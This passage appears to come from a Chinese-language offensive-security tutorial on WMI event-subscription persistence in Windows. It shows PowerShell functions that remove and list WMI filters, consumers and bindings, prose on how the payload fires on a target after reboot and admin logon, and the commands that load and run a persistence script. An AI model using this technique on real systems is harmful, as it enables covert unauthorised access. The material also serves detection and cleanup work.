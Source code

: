 ```
48.   }
49. 
50.}
```

```
#
1.  function Remove-Persistence{
2.     $EventFilterName = 'Cleanup'
3.     $EventConsumerName = 'DataCleanup'
4.   
5.     # Clean up Code - Comment this code out when you are installing persistence otherwise it will
6.   
7.     $EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = '$EventConsumerName'"
8.     $EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = '$EventFilterName'"
9.     $FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding"
10. 
11.   $FilterConsumerBindingToCleanup | Remove-WmiObject
12.   $EventConsumerToCleanup | Remove-WmiObject
13.   $EventFilterToCleanup | Remove-WmiObject
14. 
15.}
```

```
#
1.  function Check-WMI{
2.     Write-Host "Showing All Root Event Filters"
3.     Get-WmiObject -Namespace root/subscription -Class __EventFilter
4.   
5.     Write-Host "Showing All CommandLine Event Consumers"
6.     Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer
7.   
8.     Write-Host "Showing All Filter to Consumer Bindings"
9.     Get-WmiObject -Namespace root/subscription -Class __FilterToConsumerBinding
10.}
```

    然后开始插入事件, 一旦正常插入成功后, 当目标再次重启系统, 管理员 [administrator] 正常登录, 稍等片刻 [如果是 server2016 的话可能要稍微多等会儿] 当系统在后台轮询到我们的 payload 事件后, 便会被触发执行.  

```
#
1.  PS > Import-Module .\WMI-Persistence.ps1
2.  PS > Install-Persistence
3.  PS > Check-WMI
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08VU7YeXnWCic7fP0RlC8eh4icXSaRHCyhdOsgG0ClQKPFhqSJgABWbcpuuCM4a5MZl7ibkQ3Zna0euw/640?wx_fmt=png)  
